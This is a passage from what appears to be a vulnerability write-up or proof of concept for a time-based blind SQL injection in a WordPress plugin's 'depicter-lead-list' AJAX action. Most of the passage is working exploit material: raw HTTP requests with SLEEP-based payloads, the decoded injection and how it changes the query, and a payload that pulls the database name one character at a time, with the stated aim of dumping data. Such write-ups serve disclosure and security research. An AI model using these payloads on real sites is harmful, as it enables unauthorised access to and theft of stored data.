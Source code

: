 ```http
GET /wp-admin/admin-ajax.php?action=depicter-lead-list&s=999%25'+AND+(SELECT+1+FROM+(SELECT+SLEEP(5))a))+--+-+ HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

Decoded payload:

```sql
999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) -- -
```

This makes part of the query:

```sql
AND (lf.value like '999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) -- ' OR leadtable.content_name like '999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) #')
```

![response time](resp_time.png "Response time showing the payload execution")

👉 The delayed response confirms the injection worked.

**Subquery in FROM clause**: The subquery acts as a temporary table, forcing MySQL to execute it first, delaying the main query execution.

### Get First Letter of Database Name

To fully dump data, we must first confirm we can extract at least one character of the database name.

Send a request with the following **SQLi payload**:

```http
GET /wp-admin/admin-ajax.php?action=depicter-lead-list&s=999%25'+AND+(SELECT+1+FROM+(SELECT+IF(SUBSTRING(SCHEMA(),1,1)=0x77,SLEEP(5),1))a))+--+-+ HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```
